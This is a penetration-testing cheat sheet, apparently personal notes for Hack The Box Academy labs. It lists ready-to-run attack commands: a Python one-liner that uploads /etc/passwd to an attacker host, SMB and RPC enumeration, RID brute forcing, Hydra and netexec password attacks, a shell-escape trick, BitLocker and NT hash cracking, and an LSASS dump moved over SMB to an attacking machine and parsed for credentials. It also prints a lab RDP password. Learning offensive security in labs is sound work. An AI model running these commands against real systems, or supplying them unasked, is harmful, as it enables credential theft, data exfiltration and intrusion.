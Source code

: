 # Cheet Sheet

## Crawling
### python
python3 ReconSpider.py http://inlanefreight.com

## Upload
### python 1-liner
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'

## Fuzzing

### fuff
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://94.237.48.60:57525/ -H "Host: FUZZ.inlanefreight.htb" -fs 116


### Gobuster
gobuster dir -u http://10.10.10.121/ -w /usr/share/seclists/Discovery/Web-Content/common.txt

## Payload
cheetsheet1:[https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/]
cheetsheet2:[https://github.com/swisskyrepo/PayloadsAllTheThings]
cheetsheet3:[https://gtfobins.github.io]

## Privilege Escalation
LinPEAS

## Upgrade Shell
python -c 'import pty; pty.spawn("/bin/bash")'

## Nmap

### Convert results of nmap into html
nmap -sC -sV 10.10.10.10 -oX taregt.xml
xsltproc target.xml -o target.html

## SMB
smbclient -N -L //<FQDN/IP>
smbclient //<FQDN/IP>/<share>

## RPClient
rpcclient -U "" <FQDN/IP>
srvinfo
### Brute Forcing User RIDs
for i in $(seq 500 1100);do rpcclient -N -U "" 10.129.14.128 -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";done

## NFS
sudo mount -t nfs 10.129.14.128:/ ./target-NFS/ -o nolock

## DNS
### Bruteforce to search subdomain
dnsenum --dnsserver <nameserver> --enum -p 0 -s 0 -o found_subdomains.txt -f ~/subdomains.list <domain.tld>

## SMTP
### Existing User 
msfconsole
use auxiliary/scanner/smtp/smtp_enum
set RHOSTS <target_ip>
set USER_FILE /path/to/userlist.txt
run

## IMAP/POP3
### nmap specific port
nmap -sV -sC 10.129.160.110 -p110,143,993,995

### Search the mailbox on the imapserver 
a004 FETCH 1:* (BODY.PEEK[HEADER.FIELDS (FROM SUBJECT)])
### If you find the above command read the full mail including custom header
a004 FETCH 1 (RFC822)

## MS-SQL
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.149.195
### Connect with pyhon
impacket-mssqlclient backdoor:Password1@10.129.149.195 -windows-auth

## Oracle-TNS
sudo nmap -p1521 -sV 10.129.205.19 --open --script oracle-sid-brute

### Windows RDP
xfreerdp /v:STMIP /u:htb-student /p:HTB_@cademy_stdnt!

## Find shell
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;

## Password Craking

### BitLocker
bitlocker2john -i Backup.vhd > backup.hashes
grep "bitlocker\$0" backup.hashes > backup.hash
hashcat -a 0 -m 22100 '$bitlocker$0$16$02b329c0453b9273f2fc1b927443b5fe$1048576$12$00b0a67f961dd80103000000$60$d59f37e70696f7eab6b8f95ae93bd53f3f7067d5e33c0394b3d8e2d1fdb885cb86c1b978f6cc12ed26de0889cd2196b0510bbcd2a8c89187ba8ec54f' /usr/share/wordlists/rockyou.txt

### WinRM
netexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>

### ssh
hydra -L user.list -P password.list ssh://10.129.42.197

### RDP
netexec winrm <ip> -u user.list -p password.list

### Default Credentials
https://raw.githubusercontent.com/ihebski/DefaultCreds-cheat-sheet/main/DefaultCreds-Cheat-Sheet.csv

## Attacking LSASS
### Creatting dump file on powershell
PS C:\Windows\system32> Get-Process lsass # To check PID
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID> C:\lsass.dmp full 
### Download from target
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/ # Attacking machine
PS C:\Windows\system32> move C:\lsass.dmp \\10.10.14.184\CompData # Target machine
### Extract Credential
pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
### Cracking the NT Hash
sudo hashcat -m 1000 <NT Hash> /usr/share/wordlists/rockyou.txt


